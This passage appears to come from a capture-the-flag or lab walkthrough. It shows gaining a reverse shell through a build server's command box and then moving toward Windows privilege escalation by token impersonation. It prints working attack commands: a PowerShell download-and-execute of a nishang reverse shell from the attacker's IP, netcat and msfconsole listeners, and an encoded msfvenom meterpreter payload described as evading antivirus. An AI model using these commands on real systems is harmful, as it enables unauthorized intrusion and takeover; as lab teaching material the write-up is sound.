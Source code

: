 Once in, we can navigate to the configure tab on the left hand menu. Here we find a build configuration menu with the ability to input commands in the "build" section.

Let's use the following command to download the ninjang reverse shell script found [here](https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1) and save/apply the build.
```
powershell iex (New-Object Net.WebClient).DownloadString('http://10.2.11.19:80/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress 10.2.11.19 Port 4444
```

Then, we need to setup our server and our listener with the following commands.
```
python -m http.server 80
nc -lvnp 4444
```

Once we have these setup, we can navigate to the dashboard and click the "Build" button. That will instruct the target to download the script from our system and execute the shell script with our ip and listener port. Now we have a reverse shell.

### Privilege Escalation

Now that we have a shell, we can try and upgrade the shell to a meterpreter shell to make privesc a little easier. To do this, we can use msfvenom to generate a meterpreter shell script.
```
msfvenom -p windows/meterpreter/reverse_tcp -a x86 --encoder x86/shikata_ga_nai LHOST=10.2.11.19 LPORT=4443 -f exe -o shell.exe
```

We use the encoder flag to encode the payload. This is done to ensure correct transmission and to help with antivirus evasion. Now let's download the meterpreter shell code to the target with the following command.
```
powershell "(New-Object System.Net.WebClient).Downloadfile('http://10.2.11.19:80/shell.exe','shell.exe')"
```

Now we need to setup our hander. Start msfconsole and enter the following command.
```
use exploit/multi/handler set PAYLOAD windows/meterpreter/reverse_tcp set LHOST 10.2.11.19 set LPORT 4443
```

To double check, use the options command to ensure the lhost and lport are set correctly and press run. Now we can execute the shell code on the target and get a meterpreter shell.
```
Start-Process "shell.exe"
```

Now we have a meterpreter shell. To elevate our privileges, we can do whats called token impersonation. 

#### Tokens

Windows uses tokens to ensure certain accounts have the right privileges to carry out certain tasks. Users are assigned tokens when they login/authenticate. This is usually carried out by the LSASS.exe process. Generally, tokens consist of three parts:
* user SIDs (Security IDentifier)
* group SIDs
* privileges

